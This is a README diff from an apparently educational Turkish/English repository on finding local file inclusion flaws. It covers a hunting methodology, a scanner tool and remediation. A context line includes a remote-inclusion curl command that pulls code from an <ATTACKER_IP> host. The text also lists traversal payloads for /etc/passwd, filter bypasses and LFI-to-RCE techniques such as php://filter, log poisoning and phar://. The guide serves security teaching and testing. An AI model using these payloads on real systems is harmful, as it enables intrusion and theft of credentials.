

Before and after one commit to Nasuhii/web-security-lfi-guide, a Markdown page: README.md, the part around one of its changes. GitHub-like rendering; blank space fills up the shorter version.

````diff
--- a/README.md
+++ b/README.md
@@ -100,18 +34,34 @@ curl -s "http://<TARGET>/?page=http://<ATTACKER_IP>:8000/rce.txt&cmd=id"
 
 ---
 
-## 6. Non-PHP Vectors
+## 📂 Depo Yapısı (Hepsi Tek Çatı Altında)
 
-| Stack | Vector | Example |
-| :--- | :--- | :--- |
-| **Nginx** | Off-by-slash (`location /static` missing trailing `/`) | `http://<TARGET>/static../etc/passwd` |
-| **Tomcat / Spring** | Path parameter normalization bypass | `..;/..;/..;/etc/passwd` |
-| **Python** | `os.path.join(base, user_input)` resets `base` if input starts with `/` | `?file=/etc/passwd` |
+| Klasör / Dosya | İçerik |
+| :--- | :--- |
+| [`docs/LFI_Adim_Adim_Teknik_Rehber.md`](docs/LFI_Adim_Adim_Teknik_Rehber.md) | **Ana Türkçe Teknik Rehber + Cheatsheet:** Adım adım arama metodolojisi, bypass matrisi, dil tuzakları (Go/Python/Java/TCPDF), PHP wrapper'lar, LFI2RCE teknikleri ve savunma. |
+| [`docs/HackTricks_LFI_RFI_Path_Traversal_Derin_Teknik_Rehber.pdf`](docs/HackTricks_LFI_RFI_Path_Traversal_Derin_Teknik_Rehber.pdf) | **Derin Teknik PDF Rehberi:** Kapsamlı LFI/RFI/Path Traversal başvuru kitabı. |
+| [`docs/EN_Cheatsheet.md`](docs/EN_Cheatsheet.md) | **English Reference:** Kısa İngilizce hızlı başvuru özeti. |
+| [`assets/lfi_hunting_workflow.png`](assets/lfi_hunting_workflow.png) | **Adım Adım Arama Akış Şeması:** 6 adımlı görsel av metodolojisi. |
+| [`tool/lfi_hunter.py`](tool/lfi_hunter.py) | **Otomatik Denetim Aracı:** `--path-as-is` davranışlı, sıfır harici bağımlılıklı Python 3 CLI denetçisi. |
+| [`tool/demo_server.py`](tool/demo_server.py) & [`tool/test_lfi_hunter.py`](tool/test_lfi_hunter.py) | **Yerel Lab & Doğrulama Testi:** Zafiyetli vs yamalı sunucu üzerinde otomatik regresyon testi. |
+| [`tool/sample_audit_report.md`](tool/sample_audit_report.md) | Örnek denetim çıktısı. |
 
 ---
 
-## 7. Remediation
+## ⚡ Hızlı Başlangıç: Ararken Adım Adım Ne Yapacaksın?
 
-1. **Avoid Direct Paths:** Map numeric IDs (`?id=1`) to server-side file paths.
-2. **Strict Allowlist:** Validate input against a fixed set of permitted filenames.
-3. **Canonicalization:** Resolve `../` and symlinks (`realpath()`, `getCanonicalPath()`) before checking `startsWith(BASE_DIR + "/")`. Never rely on `getAbsolutePath()` or `str_replace("../", "")`.
+1. **Adım 1 — Giriş Noktası & `.git` Kontrolü:** URL'deki `?page=`, `?file=`, `?path=`, `?doc=`, `?lang=` parametrelerini, gizli form alanlarını ve çerezleri yakala. Önce `/.git/HEAD` açık mı bak.
+2. **Adım 2 — Hata Parmak İzi (`?page=test_123`):** Var olmayan bir dosya gönderip `Warning` mesajından **Prefix** (`languages/`), **Suffix** (`.php`), **Webroot derinliği** (`/var/www/html/`) ve **OS** (`/` vs `\`) bilgisini çıkar.
+3. **Adım 3 — `curl --path-as-is` & Bypass:** Tarayıcı ve normal `curl` `../` dizilerini siler; mutlaka `--path-as-is` kullan. Filtre varsa `....//....//`, `%252f` veya prefix ekli (`languages/../../../../../etc/passwd`) dene.
+4. **Adım 4 — Otomatik Tarama (`lfi_hunter.py` / `ffuf`):**
+   ```bash
+   # Otomatik LFI & Path Traversal denetimi (Top-25 parametre + çoklu bypass)
+   python3 tool/lfi_hunter.py --url "http://127.0.0.1:8080/view?page=home" --report audit_report.md
+
+   # Yerel zafiyetli vs yamalı doğrulama testini çalıştır
+   python3 tool/test_lfi_hunter.py
+   ```
+5. **Adım 5 — Kaynak Kod & LFI2RCE:** Sadece `/etc/passwd` okuyup durma; `php://filter/convert.base64-encode/resource=config.php` ile şifreleri çek, gerekiyorsa Log Poisoning (`curl -A`), Session Poisoning, `zip://`, `phar://` veya PHP Filter Chain ile RCE dene.
+6. **Adım 6 — Güvenli Kodlama (Remediation):** Kullanıcıdan dosya adı yerine sayısal ID (`?id=1`) al; zorunluysa `realpath()` / `filepath.Rel()` ile kanonikleştirme + strict allowlist uygula.
+
+👉 Tüm teknik detaylar, kopyala-yapıştır komutlar ve dil bazlı kod inceleme tuzakları için **[Ana Teknik Rehber'e (`docs/LFI_Adim_Adim_Teknik_Rehber.md`)](docs/LFI_Adim_Adim_Teknik_Rehber.md)** geçebilirsin.
````
Also changed, not shown: other parts of README.md (+23 -89 lines), docs/EN_Cheatsheet.md (added, +117 -0 lines), docs/LFI_Adim_Adim_Teknik_Rehber.md (added, +155 -0 lines), tool/sample_audit_report.md (added, +12 -0 lines), assets/lfi_hunting_workflow.png (added), 6 other files.
